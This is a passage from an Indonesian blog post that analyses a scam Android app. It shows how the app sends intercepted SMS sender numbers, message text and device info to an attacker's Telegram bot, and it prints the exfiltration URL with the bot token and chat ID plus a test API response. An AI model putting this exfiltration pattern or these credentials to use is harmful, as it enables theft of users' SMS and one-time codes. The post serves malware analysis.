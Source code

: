 ```java
	.append("\n - ")
	.toString();
```

<img src="{{ '/assets/img/posts/2023-12-06-app-scam/app-scam-23.webp' | prepend: site.baseurl }}" class="img-fluid center m-1">

Setelah mengirimkan informasi, aplikasi akan mengirimkan no pengirim SMS, isi SMS dan info perangkat yang sudah dikumpulkan tadi.

```
https://api.telegram.org/bot6786269059:AAE5kJhf3LIHOVNWjjinjStyEzwzFQWysVk/sendMessage?parse_mode=markdown&chat_id=6648398269&text=𝐍𝐞𝐰 𝐒𝐌𝐒 𝐑𝐞𝐜𝐞𝐢𝐯𝐞𝐝 %0A %0A𝐒𝐞𝐧𝐝𝐞𝐫 : _").append(str1).append("_,%0A𝐌𝐞𝐬𝐬𝐚𝐠𝐞 : _\n\n").append(str2).append("%0A %0A𝐓𝐲𝐩𝐞 𝐏𝐞𝐫𝐚𝐧𝐠𝐤𝐚𝐭 : "
```

- Request
  <img src="{{ '/assets/img/posts/2023-12-06-app-scam/app-scam-24.webp' | prepend: site.baseurl }}" class="img-fluid center m-1" >

- Response
  <img src="{{ '/assets/img/posts/2023-12-06-app-scam/app-scam-25.webp' | prepend: site.baseurl }}" class="img-fluid center m-1" >

- Full Response Body

  ```json
  {
    "ok": true,
    "result": {
      "message_id": 25542,
      "from": {
        "id": 6786269059,
        "is_bot": true,
        "first_name": "Pencari ikan gabuss",
        "username": "Kskskskkskskkdkskd_bot"
      },
      "chat": {
        "id": 6648398269,
        "first_name": "Anak",
        "last_name": "Muda",
        "type": "private"
      },
      "date": 1701826905,
      "text": "𝐍𝐞𝐰 𝐒𝐌𝐒 𝐑𝐞𝐜𝐞𝐢𝐯𝐞𝐝 \n \n𝐒𝐞𝐧𝐝𝐞𝐫 : 6505551212,\n𝐌𝐞𝐬𝐬𝐚𝐠𝐞 : Hello!\n \n𝐓𝐲𝐩𝐞 𝐏𝐞𝐫𝐚𝐧𝐠𝐤𝐚𝐭 : unknown Android SDK built for x86",
      "entities": [
        {
          "offset": 49,
          "length": 10,
          "type": "italic"
        },
        {
          "offset": 78,
          "length": 72,
          "type": "italic"
        }
      ]
    }
  }
  ```
